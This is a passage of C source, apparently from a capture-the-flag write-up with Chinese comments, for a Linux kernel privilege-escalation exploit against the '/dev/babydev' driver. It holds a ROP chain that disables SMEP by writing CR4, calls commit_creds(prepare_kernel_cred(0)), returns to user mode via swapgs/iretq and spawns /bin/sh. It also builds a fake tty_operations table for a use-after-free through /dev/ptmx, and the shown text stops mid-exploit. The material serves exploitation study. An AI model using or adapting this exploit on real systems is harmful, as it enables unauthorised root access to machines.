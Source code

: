 ```c
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void *) KERNCALL = (void *)0xffffffff810a1810;
int (*commit_creds)(void *) KERNCALL = (void *)0xffffffff810a1420;

void save_status()
{
    asm(
        "mov %cs, tf+8;"
        "pushfq; popq tf+16;"
        "mov %rsp, tf+24;"
        "mov %ss, tf+32;"
    );
    puts("Status saved!");
}

void get_shell()
{
    system("/bin/sh");
}

int get_root()        // 如果不加返回值，这个函数会被编译成不返回
{
    commit_creds(prepare_kernel_cred(0));
    return 0;
}

int main()
{
    save_status();

    uint64_t fake_tty_operations[30];
    uint64_t fake_tty[4] = {0};
    uint64_t rop[30] = {
        0xffffffff810d238d,         // pop rdi ; ret 关闭SMEP
        0x6f0,
        0xffffffff81004d80,         // mov cr4, rdi ; pop rbp ; ret
        0,
        get_root,
        0xffffffff81063694,         // swapgs ; pop rbp ; ret
        0,
        0xffffffff814ee0a4,         // opcode: 48 cf iretq
    };
    tf.rip = get_shell;
    *(struct trap_frame*)(&rop[8]) = tf;

    for (int i = 0; i < 30; ++i) {
        fake_tty_operations[i] = 0xFFFFFFFF8181BFC5;            
        // 0xFFFFFFFF8181BFC5 : rsp, rax ; dec ebx ; jmp 0xffffffff8181bf7e 
        // 0xffffffff8181bf7e: ret
        // 这个gadget，ROPgadget搜索结果错误，详见ERROR节
    }
    fake_tty_operations[0] = 0xffffffff8100ce6e;                // pop rax; ret
    fake_tty_operations[1] = rop;
    fake_tty_operations[2] = 0xFFFFFFFF8181BFC5;                
    // 0xFFFFFFFF8181BFC5 : rsp, rax ; dec ebx ; jmp 0xffffffff8181bf7e 
    // 0xffffffff8181bf7e: ret

    int fd1 = open("/dev/babydev", O_RDWR);
    int fd2 = open("/dev/babydev", O_RDWR);
    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    int fd_tty = open("/dev/ptmx", O_RDWR | O_NOCTTY);
```